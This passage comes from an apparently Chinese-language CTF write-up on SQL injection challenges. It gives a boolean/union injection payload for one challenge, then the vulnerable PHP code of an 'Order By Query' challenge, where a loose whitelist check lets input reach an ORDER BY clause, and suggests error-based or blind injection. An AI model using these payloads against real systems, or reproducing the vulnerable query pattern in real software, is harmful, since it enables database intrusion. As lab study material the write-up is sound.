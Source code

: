 利用语句：

```
injection=' or  if(1,1,(select 1 union select 2)) = 1 -- &inject=Inject 
```

## Order By Query

* * *

这是一个在 order by 后面的注入，可以直接使用双查询报错来解决。也可以使用盲注的手法猜测。

漏洞代码：

```
function addslash2_sort($orderby, $dir)
{
        if (false === ($db = addslash2_get_db())) {
                return false;
        }
        static $whitelist = array(1, 3, 4, 5);
        static $names = array(1 => 'Username', 3 => 'Apples', 4 => 'Bananas', 5 => 'Cherries');

        $dir = GDO::getWhitelistedDirS($dir, 'DESC');

        if (!in_array($orderby, $whitelist)) {
                return htmlDisplayError('Error 1010101: Not in whitelist.');
        }

        $orderby = $db->escape($orderby);

        $query = "SELECT * FROM users ORDER BY $orderby $dir LIMIT 10";
        if (false === ($rows = $db->queryAll($query))) {
                return false;
        }

        $headers = array(
                array('#'),
                array('Username', '1', 'ASC'),
                array('Apples', '3', 'DESC'),
                array('Bananas', '4', 'DESC'),
                array('Cherries', '5', 'DESC'),
        );
        echo '<div class="box box_c">'.PHP_EOL;
        echo '<table>'.PHP_EOL;
        echo GWF_Table::displayHeaders1($headers, GWF_WEB_ROOT.'challenge/order_by_query/index.php?by=%BY%&dir=%DIR%');
        $i = 1;
        foreach ($rows as $row)
        {
                echo GWF_Table::rowStart();
                echo sprintf('<td align="right">%d</td>', $i++);
                echo sprintf('<td>%s</td>', $row['username']);
                echo sprintf('<td align="right">%s</td>', $row['apples']);
                echo sprintf('<td align="right">%s</td>', $row['bananas']);
                echo sprintf('<td align="right">%s</td>', $row['cherries']);
                echo GWF_Table::rowEnd();
        }
        echo '</table>'.PHP_EOL;
        echo '</div>'.PHP_EOL;
}

```
